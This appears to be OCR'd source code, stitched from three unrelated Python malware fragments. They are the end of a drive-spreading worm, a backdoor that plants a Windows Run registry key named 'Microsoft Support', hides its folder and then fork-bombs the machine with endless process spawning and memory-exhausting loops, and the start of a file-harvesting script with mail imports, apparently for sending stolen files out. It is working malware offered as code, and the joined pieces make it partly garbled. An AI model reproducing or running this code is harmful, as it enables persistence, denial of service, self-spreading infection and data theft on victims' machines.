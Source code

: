         time.sleep(3)

def start_drive_spreading():
    # Starts "drivespreading" function as a threaded function. 
    # This means that the code will spread on drives and execute other functions at the same time.
    thread = Thread(target = drivespreading)
    thread.start()
    
def main():
    start_drive_spreading()


if __name__ == "__main__":
    main()
import itertools,subprocess,sys,os
f =  os.path.basename(sys.argv[0])
Backdoor_Name=os.path.basename(__file__)
hiddenPath = os.getcwd()
hiddenPath = '\"' + hiddenPath + '\"'
regPath = os.getcwd()
regPath = regPath + r"\%s"%Backdoor_Name
regPath = '\"' + regPath + '\"'
regConnect = ConnectRegistry(None, HKEY_LOCAL_MACHINE)
regKey = OpenKey(regConnect, r"SOFTWARE\Microsoft\Windows\CurrentVersion\Run", 0, KEY_WRITE)
SetValueEx(regKey,"Microsoft Support",0, REG_SZ, r"" + regPath)
os.system("attrib +h " + hiddenPath)
while True:
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	[''.join(x for x in t) for t in itertools.product("abcdefghijklmnobqrstuvwxyz",repeat=100)]
	[''.join(x for x in t) for t in itertools.product("abcdefghijklmnobqrstuvwxyz",repeat=100)]
import os
import sys
import hashlib
import fnmatch
import smtplib
from email.mime.text import MIMEText
# Global Vars
listOfAvailDirs = []
md5HashTitle = str(hashlib.md5('listOfAvailDirsTXTFile'.encode()).hexdigest()) + '.txt'
pathsToTXT = []
pathsToPDF = []
# Web Development File Types
pathsToHTML = []
pathsToCSS = []
pathsToJS = []
pathsToJSON = []
pathsToXML = []
pathsToXSL = []
